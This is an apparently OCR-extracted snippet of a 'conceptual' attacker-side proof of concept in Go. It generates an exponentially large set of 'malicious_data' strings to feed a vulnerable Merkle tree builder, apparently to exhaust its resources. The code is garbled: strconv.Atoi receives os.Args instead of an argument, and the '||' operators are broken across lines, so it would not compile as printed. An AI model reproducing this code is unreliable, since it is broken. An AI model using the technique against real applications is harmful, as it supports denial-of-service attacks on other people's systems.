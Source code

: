 **Conceptual PoC Code (Attacker Side - demonstrating input generation)**:

```go
package main

import (
	"fmt"
	"os"
	"strconv"
)

func main() {
	// This PoC generates a large data set to be fed into a vulnerable Merkle tree builder.
	// The actual "attack" happens when the vulnerable application processes this data.

	if len(os.Args) < 2 {
		fmt.Println("Usage: go run poc_generator.go <recursion_depth>")
		fmt.Println("Example: go run poc_generator.go 22 (generates 2^22 elements)")
		os.Exit(1)
	}

	depth, err := strconv.Atoi(os.Args)
	if err!= nil |
| depth <= 0 {
		fmt.Println("Invalid recursion depth. Please provide a positive integer.")
		os.Exit(1)
	}

	numElements := 1 << depth // Calculate 2^depth elements
	fmt.Printf("Generating %d elements for Merkle tree construction (depth %d)...\n", numElements, depth)

	// In a real attack, this data would be sent over a network or written to a file
	// that the target application consumes.
	// For demonstration, we'll just print a sample of the data.
	for i := 0; i < numElements; i++ {
		// Simulate generating actual data. In a real scenario, this could be
		// transaction hashes, file chunks, etc.
		// For simplicity, we create unique strings.
		// fmt.Printf("malicious_data_%d\n", i) // Uncomment to see all data, but it will be huge
		if i < 5 |
| i > numElements-5 { // Print only a few for sanity check
			fmt.Printf("Sample data: malicious_data_%d\n", i)
		} else if i == 5 {
			fmt.Println("...")
		}
	}
	fmt.Printf("Finished generating %d elements. Now feed this into the vulnerable application.\n", numElements)
}
```
